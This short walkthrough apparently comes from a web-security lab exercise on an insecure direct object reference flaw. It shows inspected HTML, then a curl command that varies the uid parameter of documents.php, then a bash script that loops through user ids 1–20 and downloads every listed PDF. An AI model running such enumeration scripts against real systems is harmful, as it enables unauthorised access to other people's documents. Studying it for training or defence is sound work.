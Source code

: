 
first inspect elements so that you can get the html source code like this
```
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```
then you can try to like 
```shell-session
curl -s "http://94.237.48.12:52858/documents.php?uid=3" | grep "<li class='pure-tree_link'>"
```
where uid is the different user ids 

then a bash script to get all the documents 
```
#!/bin/bash

url="http://94.237.48.12:52858"

for i in {1..20}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```